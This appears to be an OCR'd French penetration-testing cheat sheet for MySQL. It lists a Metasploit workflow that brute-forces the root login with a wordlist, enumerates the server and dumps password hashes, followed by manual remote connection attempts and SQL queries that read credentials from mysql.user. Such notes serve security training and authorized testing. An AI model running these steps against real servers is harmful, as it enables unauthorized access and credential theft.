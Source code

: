 ### Workflow Metasploit MySQL
```bash
# 1. Détection version MySQL
use auxiliary/scanner/mysql/mysql_version
set RHOSTS target
run

# 2. Brute force MySQL
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE true
run

# 3. Si credentials trouvés → Énumération
use auxiliary/admin/mysql/mysql_enum
set RHOSTS target
set USERNAME root
set PASSWORD foundpassword
run

# 4. Dump des hashes
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS target
set USERNAME root
set PASSWORD foundpassword
run
```

### Connexion manuelle MySQL
```bash
# Connexion locale
mysql -u root -p

# Connexion distante
mysql -h target -u root -p
mysql -h target -u root -ppassword

# Test sans mot de passe
mysql -h target -u root
mysql -h target -u admin

# Avec port personnalisé
mysql -h target -P 3307 -u root -p
```

### Commandes SQL essentielles
```sql
-- Informations système
SELECT version();
SELECT user();
SELECT database();
SHOW databases;
SHOW tables;

-- Énumération utilisateurs
SELECT user,host,password FROM mysql.user;
SELECT user,authentication_string FROM mysql.user;

-- Privilèges
SHOW grants;
SHOW grants FOR 'root'@'localhost';
```